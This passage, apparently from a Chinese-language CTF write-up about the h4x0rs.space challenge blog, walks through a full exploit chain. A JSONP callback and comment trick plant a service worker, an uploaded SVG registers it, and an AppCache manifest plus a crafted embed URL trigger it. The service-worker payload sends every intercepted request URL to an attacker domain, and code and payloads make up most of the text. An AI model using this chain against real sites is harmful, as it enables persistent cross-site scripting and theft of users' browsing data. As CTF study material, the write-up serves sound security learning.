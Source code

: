 值得注意的是，这里的callback接口有字数限制，这里可以通过和title的配合，通过注释来引入任何我们想要的字符串。

```
/*({"data":"QQ==","id":"[BLOG_POST_ID_SW]","title":"*/onfetch=e=>{fetch(`https://my-domain/?${e.request.url}`)}//","time":"2018-04-03 12:32:00","image_type":""});
```

这里需要注意的是，在serviceWorker线程中，我们并不能获取所有的对象，所以这里直接获取当前请求的url。

完整的利用链如下：

1、将`*/onfetch=e=>{fetch(`https://my-domain/?${e.request.url}`)}//`写入文章内，并保留下文章id。

2、构造jsonp接口`https://h4x0rs.space/blog/pad.php?callback=/*&id={sw_post_id}`

```
/*({"data":"QQ==","id":"[BLOG_POST_ID_SW]","title":"*/onfetch=e=>{fetch(`https://my-domain/?${e.request.url}`)}//","time":"2018-04-03 12:32:00","image_type":""});
```

3、上传svg,`https://h4x0rs.space/blog/untrusted_files/[SVG_HAVING_SW].svg`

```
<svg xmlns="http://www.w3.org/2000/svg">
<script>navigator.serviceWorker.register('/blog/pad.php?callback=/*&amp;id={sw_post_id}')</script>
</svg>
```

4、构造manifest文件,`https://h4x0rs.space/blog/untrusted_files/[SVG_MANIFEST_SW].svg`

```
CACHE MANIFEST

FALLBACK:
/blog/untrusted_files/embed/embed.php?embed=a /blog/untrusted_files/[SVG_HAVING_SW].svg
```

5、构造embed页面url

```
https://h4x0rs.space/blog/untrusted_files/embed/embed.php?embed=--%3E%3Chtml%20manifest=/blog/untrusted_files/[SVG_MANIFEST_SW].svg%3E&p=youtube
```

6、最后构造利用文章内容

```
[yt]--%3E%3Chtml%20manifest=%2Fblog%2Funtrusted_files%2F[SVG_MANIFEST_SW].svg%3E[/yt]

[yt]a#[/yt]
[yt]a#[/yt]
[yt]a#[/yt]
[yt]a#[/yt]
[yt]a#[/yt]
[yt]a#[/yt]
[yt]a#[/yt]
[yt]a#[/yt]
[yt]a#[/yt]
[yt]a#[/yt]
```
